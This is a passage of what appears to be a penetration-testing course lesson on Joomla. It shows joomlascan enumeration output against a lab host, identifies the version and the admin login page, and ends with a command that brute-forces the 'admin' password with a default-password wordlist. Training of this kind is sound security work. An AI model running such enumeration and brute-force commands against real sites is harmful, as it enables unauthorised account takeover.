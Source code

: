 -------------------------------------------
      	     Joomla Scan                  
   Usage: python joomlascan.py &lt;target&gt;    
    Version 0.5beta - Database Entries 1233
         created by Andrea Draghetti       
-------------------------------------------
Robots file found: 	 	 &gt; http://dev.inlanefreight.local/robots.txt
No Error Log found

Start scan...with 10 concurrent threads!
Component found: com_actionlogs	 &gt; http://dev.inlanefreight.local/index.php?option=com_actionlogs
	 On the administrator components
Component found: com_admin	 &gt; http://dev.inlanefreight.local/index.php?option=com_admin
	 On the administrator components
Component found: com_ajax	 &gt; http://dev.inlanefreight.local/index.php?option=com_ajax
	 But possibly it is not active or protected
	 LICENSE file found 	 &gt; http://dev.inlanefreight.local/administrator/components/com_actionlogs/actionlogs.xml
	 LICENSE file found 	 &gt; http://dev.inlanefreight.local/administrator/components/com_admin/admin.xml
	 LICENSE file found 	 &gt; http://dev.inlanefreight.local/administrator/components/com_ajax/ajax.xml
	 Explorable Directory 	 &gt; http://dev.inlanefreight.local/components/com_actionlogs/
	 Explorable Directory 	 &gt; http://dev.inlanefreight.local/administrator/components/com_actionlogs/
	 Explorable Directory 	 &gt; http://dev.inlanefreight.local/components/com_admin/
	 Explorable Directory 	 &gt; http://dev.inlanefreight.local/administrator/components/com_admin/
Component found: com_banners	 &gt; http://dev.inlanefreight.local/index.php?option=com_banners
	 But possibly it is not active or protected
	 Explorable Directory 	 &gt; http://dev.inlanefreight.local/components/com_ajax/
	 Explorable Directory 	 &gt; http://dev.inlanefreight.local/administrator/components/com_ajax/
	 LICENSE file found 	 &gt; http://dev.inlanefreight.local/administrator/components/com_banners/banners.xml


&lt;SNIP&gt;
</code></pre>
<p>While not as valuable as droopescan, this tool can help us find accessible directories and files and may help with fingerprinting installed extensions. At this point, we know that we are dealing with Joomla <code>3.9.4</code>. The administrator login portal is located at <code>http://dev.inlanefreight.local/administrator/index.php</code>. Attempts at user enumeration return a generic error message.</p>
<pre><code class="language-shell-session">Warning
Username and password do not match or you do not have an account yet.
</code></pre>
<p>The default administrator account on Joomla installs is <code>admin</code>, but the password is set at install time, so the only way we can hope to get into the admin back-end is if the account is set with a very weak/common password and we can get in with some guesswork or light brute-forcing. We can use this <a href="https://github.com/ajnik/joomla-bruteforce">script</a> to attempt to brute force the login.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 
